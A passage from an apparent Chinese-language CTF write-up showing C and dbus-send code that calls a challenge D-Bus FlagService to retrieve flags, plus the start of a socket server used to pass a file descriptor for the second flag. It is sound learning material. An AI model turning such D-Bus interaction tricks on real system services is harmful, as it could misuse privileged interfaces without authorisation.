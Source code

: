 ```c
    proxy = g_dbus_proxy_new_sync(connection,
                      G_DBUS_PROXY_FLAGS_NONE,
                      NULL,				/* GDBusInterfaceInfo */
                      BUS_NAME,		/* name */
                      OBJ_PATH,	/* object path */
                      INTERFACE,	/* interface */
                      NULL,				/* GCancellable */
                      &error);

    flag1(proxy);
    return 0;
}
```

另外也可以用`dbus-send`shell指令，原则上一行就行。但是这个好像很难处理后两问。

```bash
#!/bin/bash
BUS_NAME="cn.edu.ustc.lug.hack.FlagService"
OBJ_PATH="/cn/edu/ustc/lug/hack/FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"

dbus-send --system  --print-reply=literal --dest=$BUS_NAME $OBJ_PATH $INTERFACE.GetFlag1 string:"Please give me flag1"
```

flag2需要通过dbus传一个文件描述符过去，但不能是个文件。我们可以本地开一个socket server，再开一个socket连接那个socket server，最后直接把socket的fd传过去，可以用`g_dbus_proxy_call_with_unix_fd_list_sync`这个函数。

> 感觉我socket编程写的挺烂的

```c
#include <unistd.h>
#include <gio/gio.h>
#include <gio-unix-2.0/gio/gunixfdlist.h>
#include <gio-unix-2.0/gio/gfiledescriptorbased.h>
#include <glib.h>

int socket_server() {
    int fd;
    struct sockaddr_in addr;
    int ret;
    char buff[8192];
    struct sockaddr_in from;
    int ok = 1;
    int len;
    socklen_t fromlen = sizeof(from);

    if ((fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket");
        ok = 0;
    }

    if (ok) {
        memset(&addr, 0, sizeof(addr));
        addr.sin_family = AF_INET;
        addr.sin_port = htons(8000);
        addr.sin_addr.s_addr = htonl(INADDR_ANY);
        if (bind(fd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
            perror("bind");
            ok = 0;
        }
    }

    puts("bind localhost:8000");

```